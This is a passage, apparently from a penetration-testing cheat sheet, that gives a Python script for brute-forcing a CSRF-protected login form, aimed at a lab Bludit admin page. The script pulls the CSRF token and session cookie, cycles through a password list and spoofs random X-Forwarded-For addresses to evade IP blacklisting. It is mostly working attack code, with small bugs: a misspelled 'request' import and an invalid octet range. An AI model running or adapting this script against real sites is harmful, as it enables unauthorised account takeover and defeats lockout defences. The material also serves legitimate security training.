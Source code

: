 ```html
</script>
```

## CSRF Login Brute Force

The code can be used to Brut Force a login form using a CSRF token (It's also using the header X-Forwarded-For to try to bypass a possible IP blacklisting):

```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
    #Return CSRF + Session (cookie)
    r = requests.get(URL)
    csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
    csrf = csrf.group(1)
    session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
    return csrf, session_cookie

def login(user, password):
    print(f"{user}:{password}")
    csrf, cookie = init_session()
    cookies = {SESSION_COOKIE_NAME: cookie}
    data = {
        "tokenCSRF": csrf,
        "username": user,
        "password": password,
        "save": ""
    }
    headers = {
        "X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
    }
    r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
    if "Username or password incorrect" in r.text:
        return False
    else:
        print(f"FOUND {user} : {password}")
        return True

with open(PASS_LIST, "r") as f:
    for line in f:
        login(USER, line.strip())
```
